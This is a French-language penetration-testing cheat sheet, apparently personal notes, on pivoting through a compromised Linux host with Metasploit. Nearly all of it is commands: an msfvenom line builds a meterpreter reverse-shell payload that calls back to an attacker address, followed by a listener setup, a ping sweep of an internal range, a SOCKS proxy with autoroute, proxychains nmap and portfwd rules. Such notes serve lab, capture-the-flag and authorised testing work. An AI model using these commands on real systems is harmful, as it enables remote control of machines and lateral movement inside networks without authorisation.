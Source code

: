 ```yaml
---
public: true # set to true to make the article publishable
---
```


- Générer un reverse shell avec [[msfvenom]]
- Après avoir exécuté le reverse shell et obtenu une session meterpreter :

## Scan des hôtes répondant à l'ICMP depuis la machine de rebond (pivot)

```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.228 LPORT=2222 -f elf > shell-2222.elf

msf6> **use exploit/multi/handler
set LHOST tun0
set LPORT 2222
set PAYLOAD linux/x64/meterpreter/reverse_tcp
run


```


## Pivot via Meterpreter

```
# 1 - Etablir une session meterpreter
use exploit/multi/handler
set LHOST tun0
set LPORT 2222
set PAYLOAD linux/x64/meterpreter/reverse_tcp

# 2 - lancer le serveur socks
use auxiliary/server/socks_proxy
set SRVHOST 0.0.0.0
set SRVPORT 1080
set VERSION 4a
run

# 3 - Connecter le socks à notre session meterpreter (7 in the example)
use post/multi/manage/autoroute
set SESSION 7
run

# 4 - Tester avec proxychain
proxychains nmap $TARGET_IP -p3389 -sT -v -Pn

```


## Redirection de port via Meterpreter

```
Usage: portfwd [-h] [add | delete | list | flush] [args]
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
    -R        Indicates a reverse port forward.

# exemple rendant accessible localhost:1234 --> 1.2.3.4 depuis kali
meterpreter > portfwd add -l 1234 -p 3389 -r 1.2.3.4

# reverse port forwarding (on poura lancer un listener sur le port 1234)
meterpreter > portfwd add -R -l 2222 -p 1234 -L <ATTACKER IP>
   Traffic entrant --> Meterpreter client (port 2222) --> Attaquant (1234)
```

